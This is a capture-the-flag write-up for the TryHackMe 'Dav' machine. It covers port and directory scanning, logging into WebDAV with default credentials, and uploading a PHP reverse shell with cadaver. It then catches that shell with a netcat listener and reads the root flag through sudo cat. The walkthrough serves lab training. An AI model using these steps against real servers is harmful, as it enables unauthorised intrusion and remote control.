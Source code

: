 # 'Dav' box writeup
## Dav is a CTF box created by stuxnet and available on the [TryHackMe platform](https://tryhackme.com).
## Read about [WebDAV](https://en.wikipedia.org/wiki/WebDAV), [Dav default credentials](http://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html) and [Cadaver, the WebDAV client](https://docs.oracle.com/html/E10235_03/webdav007.htm)
# ![bg](images/background.jpeg?raw=true "Title")

## Foothold
+ **We deploy the machine and start with a nmap scan for open ports**

``nmap -sV -sC -oN scan1 10.10.62.166``

+ **From our result, we can see that the 80 port is open, which is running an Appache with a default page**

# ![nmap](images/nmap_dirb_scan.jpg?raw=true "nmap")

+ **Let's run a gobuster search too and see our results. It seems that a webdav service is runnning**

``gobuster dir -u http://10.10.62.166/ -w /usr/share/wordlists/dirb/common.txt``

# ![dirb](images/nmap_dirb_scan2.jpg?raw=true "dirb")

**Navigating to the /webdav directory, the login page shows up. We need some credentials, and searching on google we can find some**

# ![login](images/login.png?raw=true "login")

``user: wampp``

``pass: xampp``

+ **After we log in, we can see a file named `passwd.dav` inside the directory**

# ![webdav](images/webdav.jpg?raw=true "webdav")

+ **Reading the file, it seems to be some credentials with a hashed password. Trying to unhashed it, i realised it's nothing that we can do with it so i continued to read about WebDAV service. It has some similarities with the ftp, among with the cadaver: we can upload some files in that /webdav directory. Let's login with the cadaver, the WebDAV client, using the same default credentials**

``cadaver http://10.10.62.166/webdav/``

``Username: wampp``

``Password: xampp``

+ **Now, let's try to upload a reverse php shell. I use the [pentestmonkey reverse shell](https://github.com/pentestmonkey/php-reverse-shell). Get it and modify the $ip parameter with your tryhackme tunneled ip and then upload it on our webdav directory**

``put php-reverse-shell.php``

# ![php](images/php-reverse-shell.jpg?raw=true "php")

# ![php](images/uploaded.jpg?raw=true "php")

+ **It seems like our reverse shell was uploaded, so let's start a nc listener and access our php shell file**

``nc -lvnp 1234``

``http://10.10.62.166/webdav/php-reverse-shell.php``

# ![werein](images/werein.jpg?raw=true "in")

# User escalation

**And we're in. Let's spawn an interactive shell and read our first flag, located inside the home directory of the merlin user**

``python -c 'import pty;pty.spawn("/bin/bash")'``

# ![in](images/usermer.jpg?raw=true "user")

# Root escalation

+ **Let's run a ``sudo -l`` command to see what commands cand www-data user can run**

# ![sudol](images/sudol.jpg?raw=true "sudol")

+ **It seems that the we can run the cat command with super user privileges so we can read our root flag**

``sudo cat /root/root.txt``

# ![root](images/rootflagoz.jpg?raw=true "root")

+ **And the box is over. 'Dev' it's an easy box, designed for beginners, but we learnt some things about WebDEV and cadaver. All thanks for this box goes to stuxnet!**


